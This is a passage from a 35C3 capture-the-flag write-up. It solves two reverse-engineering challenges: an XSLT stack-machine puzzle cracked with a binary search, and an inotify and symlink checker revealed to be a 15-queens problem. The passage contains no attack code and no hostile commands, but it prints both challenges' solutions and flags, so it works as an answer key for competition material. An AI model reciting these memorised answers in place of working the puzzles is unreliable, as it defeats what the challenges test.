  <xsl:message terminate="yes">You cannot drink that much</xsl:message>
</xsl:if>
```

Both of these seem to be fatal errors. Since `food-eaten` was initialised at `1`, the first assertion would only make sense if `consume-meal` was called multiple times. And indeed, if we scroll a bit further, we will find that `consume-meal` is called again from within itself, i.e. it is recursive. At each step, it increases `food-eaten` by one. In other words, `food-eaten` is a step counter that cannot go above 30000.

By similar logic, `drinks` must be modified within `consume-meal`, otherwise this assertion could have been made before the initial call. Whatever `drinks` are, we cannot have more than 200 of them.

Finally, we move on to the core of the XSLT. If we have any elements in `$course`, we initialise a couple of variables:

```xml
<xsl:if test="count($course) &gt; 0">
  <xsl:variable name="c" select="$course[1]"/>
  <xsl:variable name="r" select="$course[position()&gt;1]"/>
  <xsl:choose>
    ...
  </xsl:choose>
</xsl:if>
```

`c` will refer to the first element of `$course` (since in XML land lists are 1-indexed), and `r` will refer to the remaining elements. Note at this point that `$course` does NOT refer to our `<course>` elements. Recall that `consume-meal` was invoked with `<xsl:with-param name="course" select="course[position() = 1]/plate"/>`, so `$course` will contain the `<plate>` elements of our first `<course>` (on the first iteration).

So with an input like:

```xml
<meal>
  <course>
    <plate><foo/></plate>
    <plate><bar/></plate>
    <plate><baz/></plate>
  </course>
  ...
</meal>
```

During the first call to `consume-meal`, `$c` will be `<plate><foo/></plate>`, and `$r` will be the list of `<plate><bar/></plate>` and `<plate><baz/></plate>`.

After `$c` and `$r` are initialised, there is a large `<xsl:choose>` block, equivalent to a `switch` statement in conventional programming languages. The `<xsl:choose>` element checks to see what is "in" our plates, i.e. what elements are contained in our `<plate>` element. Let us have a look at one of these choices:

```xml
<xsl:when test="count($c/paella) = 1">
  <xsl:variable name="newdrinks">
    <value>
      <xsl:value-of select="$c/paella + 0"/>
    </value>
    <xsl:copy-of select="$drinks"/>
  </xsl:variable>
  <xsl:call-template name="consume-meal">
    <xsl:with-param name="chef-drinks" select="$chef-drinks"/>
    <xsl:with-param name="food-eaten" select="$food-eaten + 1"/>
    <xsl:with-param name="course" select="$r"/>
    <xsl:with-param name="drinks" select="exsl:node-set($newdrinks)//value"/>
  </xsl:call-template>
</xsl:when>
```

In other words, if our `<plate>` contained a `<paella>` element, we will invoke `consume-meal` again with slightly modified parameters:

 - `chef-drinks` - `chef-drinks` (the 5 random numbers) remain the same
 - `food-eaten` - increased by one
 - `course` - `$r`, i.e. the remaining plates of this `<course>`
 - `drinks` - `$newdrinks`, created just above, consisting of some value (contained within our `<paella>` element) prepended to the original `$drinks`

By this point it should be pretty clear that this XSLT is in fact a virtual machine! Each `<plate>` will contain an instruction which will modify the state and pass that state onto the next invocation of `consume-meal`. The `<course>` elements are blocks of instructions, in essence behaving like labels. `drinks` are in fact our stack. With a `<paella>` instruction we can push an immediate value to our stack. We can analyse all the instructions one by one:

 - `宫保鸡丁` - debug command, prints `chef-drinks` as well as `drinks`
 - `paella` - push immediate value to stack
 - `불고기` - duplicate a given element of the stack and push it
 - `Борщ` - pop top element of `chef-drinks` if it matches top of `drinks`
 - `दाल` - print the flag if no `chef-drinks` remain
 - `ラーメン` - push 1 if top of `drinks` is greater than top of `chef-drinks`, 0 otherwise
 - `stroopwafels` - push 1 if 2nd value in `drinks` is greater than top value in `drinks`
 - `köttbullar` - move a given element from `drinks` to the top
 - `γύρος` - remove a given element from `drinks`
 - `rösti` - add top elements of `drinks`
 - `לאַטקעס` - subtract top elements of `drinks`
 - `poutine` - multiply top elements of `drinks`
 - `حُمُّص` - integer divide top elements of `drinks`
 - `æblegrød` - jump to a given `<course>` if top of `drinks` is not 0

A limited instruction set, but Turing-complete nonetheless. Of particular note is `दाल` - prints the flag if (and only if) there are no more `chef-drinks`. In fact the 5 random numbers generated at the beginning form an additional stack, one that we cannot directly manipulate. The debug command `宫保鸡丁` prints out the values of `chef-drinks` (as well as our `drinks`), but this is indeed only useful for debugging – each time we run our XML on the server, the numbers are different, and we have no way to send what we saw from the debug command back to the XML file we submitted.

So our XML needs to run instructions that will guess the `chef-drinks` (using `Борщ`) one by one, without seeing their values. The only other instruction dealing with `chef-drinks` is `ラーメン`, which compares the top of our stack `drinks` with the top of the challenge stack `chef-drinks`.

In other words, we need to implement a binary search. We can adapt the pseudo-code for [binary search from Rosetta code](http://rosettacode.org/wiki/Binary_search):

    BinarySearch(A[0..N-1], value) {
        low = 0
        high = N - 1
        while (low <= high) {
            // invariants: value > A[i] for all i < low
                           value < A[i] for all i > high
            mid = (low + high) / 2
            if (A[mid] > value)
                high = mid - 1
            else if (A[mid] < value)
                low = mid + 1
            else
                return mid
        }
        return not_found // value would be inserted at index "low"
    }

Since we only have `>`, the code we will implement is:

    high = 0x100000000;
    low = 0;
    while (high > low) {
      var mid = (low + high) >> 1; // integer divide by two
      if (mid + 1 > number) {
        high = mid;
      } else {
        low = mid + 1;
      }
    }

During the CTF, I chose to implement a simple assembler. I was particularly worried about Unicode messing up my instructions (RTL marks, non-canonical ordering, bad copypaste), but of course labels and a minimum of type safety was a plus. Debugging wasn't particularly easy with the remote server, so at some point I also implemented an emulator to test my code.

[Full assembler/emulator script here](scripts/Juggle.hx)

```bash
$ haxe -D EMULATE --run Juggle
ins(0): PUSHI(0); stack: 0
ins(1): PUSHI(8388608); stack: 8388608,0
ins(2): PUSHI(1); stack: 1,8388608,0
ins(3): PUSHI(1); stack: 1,1,8388608,0
ins(4): JMP; stack: 8388608,0
ins(0): PUSHI(2); stack: 2,8388608,0
ins(1): PUSHI(1); stack: 1,2,8388608,0
ins(2): DUPN; stack: 8388608,2,8388608,0
ins(3): PUSHI(3); stack: 3,8388608,2,8388608,0
ins(4): DUPN; stack: 0,8388608,2,8388608,0
...
... etc etc
...
ins(0): PUSHI(0); stack: 0,6830991,6830991
ins(1): DROP; stack: 6830991
ins(2): CHECK; checking 6830991 against 6830991 ... OK!
stack: 
ins(3): END; flag!
```

The submission generated is available [here](scripts/sol.xml). After running it on the server, we get the flag:

`35C3_The_chef_gives_you_his_compliments`

## 215 rev / notifico ##

**Description**

> veni, vidi, notifici
> 
> Notes: - only chmod, no touch - no root user, please - tar --no-same-owner -xhzf chall.tar.gz
> 
> [Challenge files](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/notifico-b568d7b9b60a42e7e06471e2f9cb0883.tar.gz)
> 
> **HINT**: The graph is a move graph for a certain type of chess piece.

**Files provided**

 - [notifico.tar.gz](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/notifico-b568d7b9b60a42e7e06471e2f9cb0883.tar.gz)

**Solution**

In the `tar` archive, we see three files:

 - `chall.tar` - another archive containing 225 directories with some 40-50 files each, although all but one in each directory are symlinks
 - `check.py` - flag decryption script invoking `check` in the process
 - `check` - ELF executable to verify a given directory

The first step was to look into `check.py`. The important bit was:

```python
VAL = 15

# ...

res = subprocess.call(["./check", basedir])

if res == 255 or res != VAL:
    print("This looks no good...")
    exit(-1)
else:
    print("A worthy try, let's see if it yields something readable...")
```

So whatever directory we give it as our "solution", it will invoke the `check` executable on it. `check` in turn must return `VAL`, i.e. `15` for the solution to be considered valid. The SHA-256 hash of the UNIX permissions of the files in our solution directory is then used to decrypt a flag encrypted using AES. Given that there are `225` "regular" files and hundreds of symlinks in the `chall.tar` archive which forms the template for our solution, brute-force is infeasible.

The hint given in the challenge description spoils what `chall.tar` is completely, so much so that I am surprised this challenge didn't have many more solutions after the hint was released. We can gain a similar understanding of `chall.tar` from how the `check` executable works and the general structure of the archive.

Using IDA Pro we can find that `check` does roughly the following:

 - sets up `inotify` watchers on all regular (non-symlink) files in each of the `225` directories
 - try to `fopen` each of the `225` regular files in read/write mode, then `fclose`
 - set `result` to `0`
 - handle all triggered `inotify` events:
   - increment `result` by `1`
   - for each `IN_CLOSE_WRITE` event (i.e. file closed after write access), try to `execve` all the symlinks in the just-closed file's directory
 - exit with exit code `result`

Note that `execve` will only succeed when the file referenced by the symlink can be executed; if `execve` succeeds, the program will crash, because there are no valid executables in the `chall.tar` directory (each regular file is only 1 byte long).

In other words, `check` counts the regular files it can open whose "neighbours" (i.e. files referenced by the symlink it that file's directory) are not executable.

One more extremely important hint: the number of directories in `chall.tar` is `225`, which is `15 * 15`, a perfect square. `VAL` is also `15`.

We can also count how many files there are in each of the `225` directories. If we simply extract the archive and go through the directories in alphabetical order, the result is rather chaotic. However, the directories are contained in `chall.tar` in a particular order. We can see this with:

```bash
$ tar -tvf chall.tar
drwxr-xr-x  0 notifico notifico    0 Dec 22 14:06 chall/
drwxr-xr-x  0 notifico notifico    0 Dec 22 14:06 chall/NrTOYjZgBjJHfNLu/
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/NrTOYjZgBjJHfNLu/clxAKWStzqRKyxql -> ../eAvSLhONEWpXqnwu/JHFulfjgaQGnmOPx
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/NrTOYjZgBjJHfNLu/OfTFUEFIyGMZMoan -> ../HdWkyeWugdUHdzuU/rUXgDUpTytwSoWon
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/NrTOYjZgBjJHfNLu/drwKLoWvVcjNdMiX -> ../zoPhogrElBntiQUN/ThQhbYJgbiSZbykb
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/NrTOYjZgBjJHfNLu/zvXOjUgOepbQeCoe -> ../ISOYfrwvVOMZveHE/jroOyZVjiUCJCHgf
...
...
...
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/fXWIMMRZvMSweIId/GIlMJUgUbXbYmdSE -> ../pNuhEkCjuZfTZWvi/JFhCuAbdlsMRpcNo
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/fXWIMMRZvMSweIId/KdDQXPXYBqQARKQc -> ../QdyTwLeNTUDvXTFI/DJLuDDWviVrYegVM
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/fXWIMMRZvMSweIId/MCOiuhLUCuCoPZvn -> ../vruPGIPvYbkWqNzX/MHinNnRcKtLLeEXV
lrwxrwxrwx  0 notifico notifico    0 Dec 22 14:06 chall/fXWIMMRZvMSweIId/ufIYqBqbfCgGIspR -> ../vqPxvKvBQGHntyiv/aYPWRwJUyOyHRILd
-r--------  0 notifico notifico    1 Dec 22 14:06 chall/fXWIMMRZvMSweIId/KYtdUumqvnfClEMF
```

If we count the symlinks in the directories in this order and arrange them in a `15 * 15` square, we get a very neat result:

    42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42
    42,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  42
    42,  44,  46,  46,  46,  46,  46,  46,  46,  46,  46,  46,  46,  44,  42
    42,  44,  46,  48,  48,  48,  48,  48,  48,  48,  48,  48,  46,  44,  42
    42,  44,  46,  48,  50,  50,  50,  50,  50,  50,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  52,  52,  52,  52,  52,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  52,  54,  54,  54,  52,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  52,  54,  56,  54,  52,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  52,  54,  54,  54,  52,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  52,  52,  52,  52,  52,  50,  48,  46,  44,  42
    42,  44,  46,  48,  50,  50,  50,  50,  50,  50,  50,  48,  46,  44,  42
    42,  44,  46,  48,  48,  48,  48,  48,  48,  48,  48,  48,  46,  44,  42
    42,  44,  46,  46,  46,  46,  46,  46,  46,  46,  46,  46,  46,  44,  42
    42,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  44,  42
    42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42,  42

It is symmetric and there are more symlinks in the "central" directories.

Maybe you can see where all of this (+ the explicit hint) is leading to. Chess! More specifically, a chess puzzle, the [N queens problem](https://en.wikipedia.org/wiki/Eight_queens_puzzle). The famous eight queens puzzle is a chess puzzle where the goal is to arrange `8` queens on a regular (`8 * 8`) chessboard without any of them being able to see one another (queens can move and see horizontally, vertically, and diagonally). In this case we have a `15` queens puzzle.

Consider for example the top-left directory in the table above. It has `42` symlinks:

    Q,   X,   X,   X,   X,   X,   X,   X,   X,   X,   X,   X,   X,   X,   X
    X,   X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   X,   .,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   X,   .,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   X,   .,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   X,   .,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   X,   .,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   X,   .,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   X,   .,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   X,   .,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   X,   .
    X,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   .,   X

Count the squares that the queen (`Q`) can see (`X`) and there are 42 of them. In fact, each of those `X`'s in the actual `chall.tar` is a symlink to that particular directory.

Unfortunately, there are thousands of solutions to the 15 queens problem. Fortunately, we can generate them systematically with a script and hence decrypt the flag. Once again, we can adapt a program from [Rosetta Code](http://rosettacode.org/wiki/N-queens_problem).

[Adapted C program here](scripts/queens.c)

We let this C program generate all the solutions to the problem and have a Python script change each solution to a list of UNIX permissions in the order the original `check.py` script used (it sorted the directories alphabetically), SHA-256 hash it, and try to decrypt the flag.

[Python decoder here](scripts/queens.py)

(As per the challenge description, each "queen" would be marked by a regular file with `700` permissions, each non-queen would remain at `400` permissions, as provided in the `chall.tar` template.)

`35C3_congr4ts_th0se_were_s0m3_truly_w3ll_pl4c3d_perm1ssions_Sir_`
